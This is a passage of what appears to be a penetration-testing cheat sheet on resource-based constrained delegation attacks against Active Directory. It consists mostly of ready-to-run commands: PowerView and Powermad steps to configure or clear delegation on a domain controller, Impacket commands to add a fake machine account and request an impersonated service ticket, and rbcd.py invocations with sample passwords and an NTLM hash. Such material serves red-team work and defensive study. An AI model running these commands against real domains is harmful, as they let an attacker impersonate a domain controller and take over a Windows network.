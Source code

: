 Clean up:

```
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $cred
Powermad > Remove-MachineAccount -MachineAccount fakemachine1337
```



### PowerView 4.0

Configure RBCD on the vulnerable host (DC01):

```
PV4 > Set-DomainRBCD DC01 -DelegateFrom fakemachine1337 -Verbose
```

Clean up:

```
PV4 > Set-DomainRBCD DC01 -Clear -Verbose
```




## RBCD from Linux

Add new machine account:

```
$ addcomputer.py -computer-name 'fakemachine1337' -computer-pass 'Passw0rd!' -dc-ip 192.168.1.11 -dc-host DC02.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
```

Ask TGS for LDAP:

```
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'DC01' -dc-ip 192.168.1.11 megacorp.local/fakemachine1337:'Passw0rd!'
```



### rbcd-attack

* [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

Configure RBCD on the vulnerable host (DC01):

```
$ python3 rbcd.py -f fakemachine1337 -t DC01 -dc-ip 192.168.1.11 megacorp.local/snovvcrash:'Passw0rd!'
$ python3 rbcd.py -f fakemachine1337 -t DC01 -dc-ip 192.168.1.11 megacorp.local/'MEGACORP\SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889
```



### rbcd_permissions
